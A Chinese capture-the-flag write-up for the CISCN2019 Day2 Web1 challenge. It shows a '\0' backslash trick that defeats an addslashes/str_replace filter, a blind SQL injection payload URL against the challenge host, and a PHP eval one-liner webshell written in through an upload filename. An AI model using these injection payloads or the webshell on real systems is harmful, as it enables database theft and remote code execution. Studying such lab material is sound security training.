






CISCN2019DAY2WEB1
虽然对于SQL注入我个人是相当不屑的。当前的环境下已经存在彻底磨灭SQL注入的技术了，但是比赛出现的频率依然不低，所以只能把它捡回来了。。orz
拿到文件
先从这道题开始说吧，扫目录能扫出来robots.txt,下面有*.php.bak,提示我们可以尝试读取文件，
得到代码我将他稍微修改方便fuzz之后长这样：
1 |
|
明确目标
我们想要得到的目标是什么，很明显，这道题的查询语句如下：
1 | $result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'"); |
注入原理分析
其中id和path都是我们可控的，在这种情况下，我们其实可以通过吞掉id后面的单引号的方式，进而达到控制查询语句的操作，如图所示：

在SQL语句当中，\转义也是存在的，只要该符号存在，便会自动的对数据进行转义，比如：
如果 在单引号面前加上\，就会被系统认定为字符串类型的 ‘ ,也就起不到闭合语句的作用了。
回到注入上来，我们如果想要逃逸掉对id的注入，想要自己控制语句的话，应该构造如下代码：

通过上面的分析我们可以知道，id后面的单引号由于被\进行了修饰，也就无法起到闭合的作用了，而 name的部分被我们的单引号闭合之后，再通过或逻辑，就可以控制任意查询了。
题目的绕过
上面一段中我们已经知道第一步的中我们的目标是对id进行控制，使得id最终输出的值最终为 斜杠（\），这样就可以使用path进行注入了，但是我们发现id和path其实都被修饰了，也就无法直接输入斜杠来绕过，利用上面的代码演示如下：

这道题的关键代码如下：
1 | $id=str_replace(array("\\0","%00","\\'","'"),"",$id); |
我们首先要知道的是，虽然这里写的是\0 ,然而实际上依然是\0,前面的\是用于转义的。
这样想的话，我们便可以通过构造\0的方式来尝试绕过
顺序如下
我们输入的为”\0” -> 经过addslashes函数之后”\\0”,再经过str_replace函数之后即为\了，

那这里可能就有人想问了，为什么不用\‘ 来绕过，这是因为如果使用\ 和 ‘组合方式，经过addslashes的时候这两个符号都会被转义，这样的话我们就没有办法利用str_replace函数，于是我们构造payload第一步如下：
逐步fuzz..

最终在mysql当中得到如下语句可以fuzz：
1 | select * from websites where id = if( ord( substr((select database() ),1,1 ))>145,1,2); |
于是构造出在url当中：
1 | http://a624b8c4-8225-4f4b-8681-7f29d013c51b.node3.buuoj.cn/image.php?id=\0&path=or id=if( ord( substr((select database() ),1,1 ))>=99,1,0) %23 |
那么就该构造脚本了
1 | import requests |
过了非常非常久才出来..其实建议用二分法脚本：
1 | import requests |
再之后是利用短标签上传PHP文件
除此之外我们也要注意到的是他这里是将你的filename写入到这个文件下面，所以我们将一句话写道这个文件下面
1 | <?=eval($_POST[1]);?> |
